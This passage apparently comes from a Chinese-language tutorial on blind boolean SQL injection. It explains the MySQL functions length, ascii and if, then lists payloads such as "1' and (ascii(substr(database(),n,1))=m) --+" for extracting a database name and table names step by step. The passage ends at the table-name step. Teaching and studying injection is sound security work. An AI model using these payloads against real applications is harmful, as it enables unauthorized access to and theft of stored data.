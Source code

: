 ###### ②length()

* 获取数据库长度

* 使用方法：length(arg1)，arg1代表字符串(数据库名)

  ```
  select length(database())
  ```

###### ③ascii()

* 将单一字符，转化为ascii码值

* 使用方法：ascii(str)，str代表字符

  ```
  select ascii('a')
  ```

###### ④if()

* 条件判断

* 使用方式：if(exp1,true,false)

  ```
  select if(length(database())>0,1,0)
  ```

###### ⑤count()

* 判断记录数

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and (length(database()))=n --+		//n为数据库名长度
```

###### ②获取数据库名称

```
1' and (ascii(substr(database(),n,1))=m) --+		//n为第几个位置，m为ascii码[65,122]
```

###### ③获取表名长度

```
1' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m) --+
  //m为表名长度
//获取表的个数
1' and (select count(*) from information_schema.tables where table_schema=database())=m -- qwe	//m为表的个数
```

###### ④获取表名

